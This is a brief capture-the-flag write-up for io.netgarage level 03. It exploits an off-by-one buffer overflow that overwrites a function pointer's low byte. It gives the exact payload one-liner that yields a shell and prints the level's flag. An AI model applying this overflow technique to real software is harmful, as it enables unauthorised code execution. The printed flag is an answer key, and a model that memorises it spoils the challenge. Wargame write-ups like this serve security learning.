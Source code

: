 ### Level 03
Let's get a copy of the stuff
`scp -P 2264 level1@io.netgarage.org:/levels/level03* .` with password from previous level
Looking through source, we've got a fencepost error on the for loop, allowing us to write 17 bytes into a 16 byte buffer. This 17th byte should over-write the LSB of the function pointer, allowing us to jump part way into f, where the win and shell are called.

So, looking through ida free, I think the we need to change the byte to "\x6e". 
Let's give it a shot.
`./level03 $(python -c 'print("AAAAAAAAAAAAAAAA"+"\x6e")')`
`WIN!` and we have our shell.
Flag is `raL6E8S0Y9BpioDK`
